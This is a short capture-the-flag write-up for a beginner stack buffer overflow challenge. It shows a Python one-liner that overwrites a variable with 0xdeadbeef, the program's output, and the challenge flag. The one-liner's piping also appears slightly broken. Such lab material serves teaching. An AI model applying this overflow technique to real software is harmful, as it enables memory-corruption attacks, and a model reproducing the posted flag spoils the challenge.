 ## Problem: Buffer overflow

Can you overflow the buffer to change the variable's value?

## Hint:
When you enter a string greater than 20 bytes long, the extra bytes get stored into the val variable. Enter a suitable string which changes val's value to 0xdeadbeef.

## Explanation:

There is an overflow when a string greater than 20 bytes is entered. We can change val's value using the extra bytes as follows:

```
python -c 'print "A"*20+"\xef\xbe\xad\xde"'; cat | ./script
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
lakshya_CTF{0v3Rfl0wing_W0rk5}
```

Flag: `lakshya_CTF{0v3Rfl0wing_W0rk5}`